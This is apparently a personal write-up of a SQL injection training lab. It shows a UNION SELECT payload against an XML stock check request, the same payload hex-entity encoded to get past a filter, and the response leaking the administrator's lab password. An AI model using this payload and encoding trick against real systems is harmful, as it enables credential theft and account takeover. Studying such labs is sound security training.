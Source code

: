 *This lab contains a SQL injection vulnerability in its stock check feature. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The database contains a users table, which contains the usernames and passwords of registered users. To solve the lab, perform a SQL injection attack to retrieve the admin user's credentials, then log in to their account.*

Upon loading the page, I clicked on the first product's details, clicked on *Check stock* and observed the request in HTTP History: 
![Screenshot 2024-05-03 at 12.40.28 PM](images/Screenshot%202024-05-03%20at%2012.40.28%20PM.png)

From the request sent, we see that the `productID` and `storeid` is encoded in XML. I can obfuscate my attack by encoding the the following injected query: 
```Burp 
UNION SELECT password FROM users WHERE username-'administrator'
```
 to : 
```Burp 
&#x31;&#x20;&#x55;&#x4e;&#x49;&#x4f;&#x4e;&#x20;&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x70;&#x61;&#x73;&#x73;&#x77;&#x6f;&#x72;&#x64;&#x20;&#x46;&#x52;&#x4f;&#x4d;&#x20;&#x75;&#x73;&#x65;&#x72;&#x73;&#x20;&#x77;&#x68;&#x65;&#x72;&#x65;&#x20;&#x75;&#x73;&#x65;&#x72;&#x6e;&#x61;&#x6d;&#x65;&#x3d;&#x27;&#x61;&#x64;&#x6d;&#x69;&#x6e;&#x69;&#x73;&#x74;&#x72;&#x61;&#x74;&#x6f;&#x72;&#x27;
```
Using the following encoding: 
![Screenshot 2024-05-03 at 1.08.35 PM](images/Screenshot%202024-05-03%20at%201.08.35%20PM.png)
Received the following response: 
```Burp 
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 30

983 units
wtwk4h33msbs83et8u1z
```

Using the password above, I logged in as administrator!
![Screenshot 2024-05-03 at 1.09.59 PM](images/Screenshot%202024-05-03%20at%201.09.59%20PM.png)